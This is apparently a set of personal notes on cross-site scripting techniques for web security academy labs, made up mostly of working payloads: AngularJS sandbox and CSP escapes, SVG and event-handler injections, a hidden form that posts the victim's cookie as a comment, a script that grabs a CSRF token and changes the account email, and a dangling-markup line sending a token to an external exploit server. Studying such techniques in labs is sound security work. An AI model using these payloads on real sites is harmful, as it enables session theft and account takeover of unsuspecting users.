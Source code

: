 - HTML encoded brackets and quotes in AngularJS ([source](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/5%20-%20XSS%20in%20Angular.md)): 
  ```
  {{constructor.constructor('alert(1)')()}}
  ```

- Cool way to execute a function beside `eval()`:
  ```
  Function(`alert(123222)`)();
  ```

- Ngon vl: 
  ```
  <mytag type=hidden oncontentvisibilityautostatechange=alert(document.cookie) style=content-visibility:auto>
  ```

- XSS via `svg`:
  ```
  <svg><animatetransform onbegin=alert(1)>
  ```

- A `<script>` tag inserted with `innerHTML` will not execute.

- jQuery selector vulnerability: (recent version has fixed this)
`var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');`
this will always result in creating a new node in the background of the DOM when a node is passed to the `contains` method -> use `#<img/src/onerror=print()>`

- Auto focus: use fragment `#x`
  ```
  <my-tag id='x' onfocus=alert() tabindex=0></my-tag>
  ```

- Accesskey via canonical link: add this attribute `?x=a'accesskey='x'onclick='alert()`
  - On Windows: `ALT+SHIFT+X`
  - On MacOS: `CTRL+ALT+X`
  - On Linux: `Alt+X`

- The closing tag inside quotes will be treated as HTML entity not a string, therefore this will be executed:
  ```
  <script>var x = 'hello</script>'
  ```

- Bypass single/double quotes and backslash escape using HTML encoding and take advantage of Javascript precedence:
  ```
  <a href="http://aha?'-alert(1)-'" onclick="var tracker={track(){}};tracker.track('http:/aha?&#39;-alert(1)-&#39;');">avvv</a>
  ```

  - Consider `x = 'http:/aha?' - alert(1) - ''` -> `alert(1)` will be executed first and then return undefined, `'http:/aha?'` will be converted to a number but since it's not a valid number, it would be NaN -> x = NaN
  - Why HTML encoding works here: the payload is writing into the `onclick` event in the context of HTML, that's why when the browser sees the HTML encoded version of the single quote, it automatically decodes it into a valid single quote.

- Make the victim post the comment showing it's cookie:
  ```
  <form
    id="my-form"
    action="/post/comment"
    method="POST"
    enctype="application/x-www-form-urlencoded"
  >
    <input type="hidden" name="postId" value="4" />
    <input type="hidden" name="comment" id="cmt" />
    <input type="hidden" name="csrf" id="csrf" />
    <input type="hidden" name="name" value="victim" />
    <input type="hidden" name="email" value="haha@gmai.com" />
    <input type="hidden" name="website" value="http://ahav.com" />
  </form>
  <script>
    setTimeout(() => {
      originalCsrf = document.getElementsByName("csrf")[1];

      myform = document.getElementById("my-form");
      comment = document.getElementById("cmt");
      csrf = document.getElementById("csrf");
      comment.value = document.cookie;
      csrf.value = originalCsrf.value;
      myform.submit();
    }, 1000);
  </script>
  ```
- Create script to silmutanously getting the csrf value and sending the change-email request:
  ```
  <script>
    var req = new XMLHttpRequest();
    req.onload = send;
    req.open("get", "/my-account", true);
    req.send();
    function send() {
      var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
      var changeReq = new XMLHttpRequest();
      changeReq.open('post', '/my-account/change-email', true);
      changeReq.send('csrf='+token+'&email=test@test.com')
    }
  </script>
  ```
### LAB: Reflected XSS with event handlers and href attributes blocked
Use `<svg>` with `<animate>` to set attribute to `<a>` tag
  ```
  <svg>
      <a>
          <animate attributeName="href" values="javascript:alert(1)" />
          <text x="20" y="20">Click me</text>
      </a>
  </svg>
  ```

- Inject `Content-Security-Policy: script-src-elem 'unsafe-inline'` header to allow the execution of inline script: 
  ```
  https://YOUR-LAB-ID.web-security-academy.net/?search=<script>alert(1)</script>&token=;script-src-elem 'unsafe-inline'
  ```

- Dangling markup attack to steal CSRF token:
when the CSRF token is below the place where dangling markup attack could occur, use this to send the CSRF to a listening server
`<a href='https://exploit-0aed003e03a2984d80fa02d801000015.exploit-server.net/exploit?`
This will make a GET request to the server with the parameter containing the CSRF token.

### LAB: Reflected XSS with AngularJS sandbox escape without strings
`/?search=123&toString().constructor.prototype.charAt=[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1`

**Execution Chain:**
| **Step** | **What Happens?** |
|----------|------------------|
| **1** | `charAt` is modified to `[].join`, enabling further manipulation. |
| **2** | `fromCharCode()` constructs `"x=alert(1)"` dynamically. |
| **3** | `orderBy` evaluates `"x=alert(1)"=1`, which executes `alert(1)`. |
| **4** | **XSS is triggered**. |

### LAB: Reflected XSS into HTML context with most tags and attributes blocked
```
  <iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

### LAB: Reflected XSS in a JavaScript URL with some characters blocked
`https://YOUR-LAB-ID.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27`

### LAB: Reflected XSS with AngularJS sandbox escape and CSP
Use `#x` to focus on this:
```
<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(document.cookie)'>
```
> Note: payload find in https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-csp-bypasses#angularjs-csp-bypasses